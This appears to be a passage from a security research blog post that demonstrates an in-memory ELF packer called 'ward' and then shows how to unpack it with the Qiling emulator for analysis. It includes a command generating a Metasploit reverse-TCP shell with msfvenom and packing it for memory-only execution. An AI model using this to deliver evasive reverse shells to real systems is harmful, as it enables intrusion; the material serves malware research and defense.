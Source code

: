 That's it, our packer implementation is complete! Let's see this in action by packing a copy of `ls`, and then executing it:

<script id="asciicast-OIaNgS2KJZOelKgAGXMmdBlzX" src="https://asciinema.org/a/OIaNgS2KJZOelKgAGXMmdBlzX.js" async></script>

As we can see, running the packed stub executes `ls` normally, but now in-memory, and the stub itself disappears after execution!
Now, we can use this do pack and load reverse shells, like say, Metasploit payloads:

```bash
$ msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell
$ ward shell
```

## Exfiltrating the Payload

Now that we have a functional packer that handles loading our malicious executable in-memory, it's time to switch to defense and beat our own work. 

I chose to approach unpacking using dynamic emulation, specifically with the popular [Qiling framework](https://qiling.io), which has now become a part of many security researchers' arsenals for reverse engineering and vulnerability hunting. Qiling is really cool because it enables one to emulate any instruction set on any operating system, enabling one to quickly scale up dynamic analyses like building fuzzers for embedded devices.

### Creating the rootfs

To start, we'll first create the **rootfs** that sandboxes all the files that are relevant to the execution of our program, and exposes a small filesystem mount that is compliant to the [Filesystem Hierarchy Standard](https://refspecs.linuxfoundation.org/FHS_3.0/fhs-3.0.pdf) for the emulated program. For many samples that one may choose to analyze, copying over the appropriate rootfs from the Qiling repository's `example/` subfolder is sufficient enough. We'll copy over `examples/rootfs/x8664_linux`, which already contains some targets in `/bin` and a copy of a linker and glibc in `/lib`.

We'll first instantiate Qiling, passing in inputs for the program we want to analyze, as well as the rootfs sandbox it'll exist under for execution:

```python

import sys
from qiling import *

ql = Qiling(["sample.packed"], "rootfs", stdout=sys.stdout)
```

Like many dynamic emulators in the open-source community, today, Qiling  incorporates analysis through instrumentation, where we have the ability to hook our own custom callbacks at an instruction, syscall, or function-level to introspect their behavior or the current state of memory, or re-implement their execution behavior in some manner, as we'll demonstrate.

As we've implemented in **ward** earlier, we want to implement focus on three different system calls: `memfd_create`, `write` and `fexecve`.

The `memfd_create` handler is simple: we'll simply use Qiling to parse out the name for display, and return an arbitrary number to represent our file descriptor:
